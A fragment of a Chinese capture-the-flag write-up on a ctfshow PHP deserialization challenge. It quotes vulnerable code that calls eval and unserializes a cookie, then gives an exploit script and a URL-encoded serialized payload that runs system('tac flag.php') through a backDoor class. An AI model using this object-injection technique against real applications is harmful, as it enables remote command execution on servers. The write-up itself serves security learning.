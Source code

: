 ```php
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);
    $user->login($username,$password);
}
```

这里出现了反序列化当中的两个魔术方法

>**1.__construct()**
>
>　　**类一执行就开始调用，其作用是拿来初始化一些值。**
>
>**2.__desctruct()**
>
>　　**类执行完毕以后调用，其最主要的作用是拿来做垃圾回收机制。**
>

突破口就是backDoor这个类，第13行在类开始执行时会声明一个info类，我们只需要把它改成backDoor，并加上想要执行的命令即可

```php
<?php

class ctfShowUser{
    private $class = 'backDoor';

    public function __construct(){
        $this->class=new backDoor();
    }

    public function __destruct(){
        $this->class->getInfo();
    }

}


class backDoor{
    private $code="system('tac flag.php');";
    public function getInfo(){
        return $this->code;
    }
}
echo urlencode(serialize(new ctfShowUser));   
// echo serialize(new ctfShowUser);   

# O%3A11%3A%22ctfShowUser%22%3A1%3A%7Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A23%3A%22system%28%27tac+flag.php%27%29%3B%22%3B%7D%7D
```
